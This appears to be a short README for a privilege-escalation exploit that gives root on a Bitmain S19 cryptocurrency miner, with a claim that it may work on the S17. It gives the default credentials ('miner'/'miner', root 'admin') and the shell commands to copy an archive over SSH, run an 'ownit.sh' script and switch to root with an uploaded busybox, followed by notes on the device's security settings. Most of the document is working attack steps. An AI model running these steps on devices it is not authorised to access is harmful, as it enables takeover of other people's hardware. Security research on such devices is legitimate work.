# Exploit for the Bitmain S19 miner to get root.

* Copy the archive file over to the device. The device does not have scp functionality, so this is a work around to get the file onto the device.
```
user@kali $: cat s19_pro_root.tar|ssh miner@192.168.1.42 "cat >/tmp/s19_pro_root.tar"
miner@192.168.1.42's password: miner
```
* Login using the 'miner' account. Password 'miner'.
```
user@kali $: ssh miner@192.168.1.42
miner@192.168.1.42's password: miner
```
* Run the following commands.
```
miner@S19PRO-01$ ~  cd /tmp/
miner@S19PRO-01$ /tmp  tar -xf s19_pro_root.tar
miner@S19PRO-01$ /tmp  chmod +x *.sh
miner@S19PRO-01$ /tmp  /tmp/ownit.sh
miner@S19PRO-01$ /tmp  /tmp/miner/busybox2 su -
Password: admin
root@S19PRO-01# ~
```

# Some security worthy notes:
- SSH server is running with root login disabled. (/usr/sbin/dropbear -R -w)
- Sudoers file has restrictive permissions and only a small list of commands are enabled.
- /etc/passwd entry for the root user has a shell of /bin/false. Needed to change to /bin/sh. 
- The root user password is "admin". The miner user password is "miner".
- busybox is very stripped down. Uploaded a better one to get access to 'su' and better tools.

This should work on the latest firmware image on the S17 also, but it has NOT BEEN TESTED!

